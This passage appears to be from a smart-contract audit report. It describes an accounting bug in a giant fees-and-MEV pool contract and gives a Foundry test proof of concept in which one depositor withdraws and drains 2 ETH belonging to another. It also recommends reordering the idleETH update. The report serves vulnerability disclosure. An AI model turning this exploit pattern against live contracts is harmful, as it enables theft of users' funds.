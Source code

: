 I know modifying the project source code is controversial. Please believe me it's a bug needed to be fixed and it's independent of the current vulnerability.

test:<br>
test/foundry/TakeFromGiantPools2.t.sol

    pragma solidity ^0.8.13;

    // SPDX-License-Identifier: MIT

    import "forge-std/console.sol";
    import {GiantPoolTests} from "./GiantPools.t.sol";

    contract TakeFromGiantPools2 is GiantPoolTests {
        function testDWUpdateRate2() public{
            address feesAndMevUserOne = accountOne; vm.deal(feesAndMevUserOne, 4 ether);
            address feesAndMevUserTwo = accountTwo; vm.deal(feesAndMevUserTwo, 4 ether);
            // Deposit ETH into giant fees and mev
            vm.startPrank(feesAndMevUserOne);
            giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
            vm.stopPrank();
            vm.startPrank(feesAndMevUserTwo);
            giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
            giantFeesAndMevPool.withdrawETH(4 ether);
            vm.stopPrank();
            console.log("user one:", getBalance(feesAndMevUserOne));
            console.log("user two(attacker):", getBalance(feesAndMevUserTwo));
            console.log("giantFeesAndMevPool:", getBalance(address(giantFeesAndMevPool)));
        }

        function getBalance(address addr) internal returns (uint){
            // just ETH
            return addr.balance;  // + giantFeesAndMevPool.lpTokenETH().balanceOf(addr);
        }

    }

run test:

    forge test --match-test testDWUpdateRate2 -vvv

test log:

    Logs:
      user one: 0
      user two(attacker): 6000000000000000000
      giantFeesAndMevPool: 2000000000000000000

The attacker stole 2 eth from the pool.

### Tools Used

foundry

### Recommended Mitigation Steps

`idleETH -= _amount;` should be after the `lpTokenETH.burn`.
